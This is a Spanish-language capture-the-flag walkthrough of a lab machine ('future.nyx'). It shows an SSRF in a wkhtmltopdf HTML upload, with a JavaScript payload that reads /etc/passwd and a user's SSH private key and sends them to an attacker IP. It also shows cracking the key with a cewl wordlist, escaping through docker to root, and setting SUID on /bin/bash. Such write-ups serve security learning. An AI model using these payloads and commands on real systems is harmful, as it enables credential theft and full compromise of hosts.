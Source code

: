 Hacemos el escaneo con nmap:
![[Pasted image 20240329113006.png]]
En este escaneo vemos un dominio que lo añadiremos al archivo /hosts:
![[Pasted image 20240329113106.png]]
Y esto corre por el puerto 80:
![[Pasted image 20240329113137.png]]
Si hacemos un clic nos manda a otra url:
![[Pasted image 20240329113217.png]]
![[Pasted image 20240329113224.png]]
Hacemos fuzzing web tanto de directorios como de extensiones de archivos:
![[Pasted image 20240329113448.png]]
Dentro del directorio homework vemos un panel de subida de archivos, donde nos pide subir un archivo HTML que se convertirá en un archivo PDF:
![[Pasted image 20240329114147.png]]
Por lo que preparamos un HTML para subirlo:
```html
<!DOCTYPE html>
<html>
<head>
    <title>Hola Mundo</title>
</head>
<body>
    <h1>Hola Mundo!</h1>
    <p>Este es un ejemplo de un "Hola Mundo" en HTML.</p>
</body>
</html>
```
![[Pasted image 20240329114612.png]]
Probamos en interceptar la petición con burp suite para ver cómo se comporta esta subida de archivo:
![[Pasted image 20240329114723.png]]
Llegados a este punto, podemos probar si se acontece un SSRF añadiendo en el HTML una imagen que lo que sea es una conexión a mi máquina atacante:
```HTML
<img src="http://192.168.0.20:443/probandoSSRF">
```
![[Pasted image 20240329115100.png]]
De esta forma, si estamos con netcat escuchando, recibimos la conexión, pero además podemos ver que la herramienta que se está ejecutando por detrás es wkhtmltopdf:
![[Pasted image 20240329115239.png]]
Comprobamos que se trata de una App que convierte HTML en PDF:
![[Pasted image 20240329115322.png]]
Lo que haremos será cargar un nuevo HTML con el siguiente contenido, que contendrá la etiqueta de script con el siguiente contenido y el enlace de gitbook donde se explica mejor:
https://j4ckie0x17.gitbook.io/notes-pentesting/pentesting-web/server-side-request-forgery-ssrf#blind-ssrf
```html
<!DOCTYPE html>
<html>
<head>
    <title>Hola Mundo</title>
</head>
<body>
    <h1>Hola Mundo!</h1>
    <p>Este es un ejemplo de un "Hola Mundo" en HTML.</p>
<script>

        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server

        readfile.open("GET","file:///etc/passwd", true);
        readfile.send();
        readfile.onload = function() {

            if (readfile.readyState === 4) {
                var url = 'http://192.168.0.20:443/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}

</script>
</body>
</html>
```
![[Pasted image 20240329120635.png]]
Y recibimos lo siguiente:
![[Pasted image 20240329120715.png]]
Esta data es el /etc/passwd, por lo que lo decodificamos en base64 y funciona:
![[Pasted image 20240329120806.png]]
Ahora vamos a probar en obtener el id_rsa del usuario mcfly:
![[Pasted image 20240329121107.png]]
Y recibimos la data siendo el id_rsa de este usuario
![[Pasted image 20240329121153.png]]
Lo decodificamos:
![[Pasted image 20240329121143.png]]
De todos modos se nos pide contraseña para usar este id_rsa:
![[Pasted image 20240329121312.png]]
Lo crackeamos con john the ripper, pero vemos que con el rockyou no funciona:
![[Pasted image 20240329121418.png]]
Pero en el código fuente del directorio /homework.html tenemos una pista diciendo que el cewler nos puede ayudar:
![[Pasted image 20240329121459.png]]
Tenemos el siguiente repositorio con la herramienta cewler para crear diccionarios:
https://github.com/roys/cewler
![[Pasted image 20240329121603.png]]
Y utilizamos esta herramienta pasándola por algunos de los directorios web para ir creando una wordlist:
```bash
cewl http://future.nyx/index.html -m 6 -w diccionario1.txt
cewl http://future.nyx/1955.html -m 6 -w diccionario2.txt
cewl http://future.nyx/2015.html -m 6 -w diccionario3.txt
cewl http://future.nyx/1885.html -m 6 -w diccionario4.txt
cewl http://future.nyx/homework.html -m 6 -w diccionario5.txt
cat diccionario* > wordlist
```
Y ahora tenemos una wordlist:
![[Pasted image 20240329152052.png]]
Y ahora con esta wordlist vemos que sí nos encuentra la contraseña:
![[Pasted image 20240329152126.png]]
Ya estamos dentro:
![[Pasted image 20240329152148.png]]
Si ejecutamos una búsqueda de binarios, nos encontramos con docker:
![[Pasted image 20240329152245.png]]
Vemos las siguientes isntrucciones de cómo escalar privilegios con docker en gtfobins:
![[Pasted image 20240329152325.png]]
Lo ejecutamos:
```bash
/usr/bin/docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
Y ya somos root, aunque estamos dentro del contenedor:
![[Pasted image 20240329152407.png]]
![[Pasted image 20240329152629.png]]
Si queremos pasar a root, simplemente podemos cambiarle el permiso a la bash y desde la máquina anfitrión ejecutar el comando bash -p:
```bash
chmod u+s /bin/bash
```
![[Pasted image 20240329152716.png]]
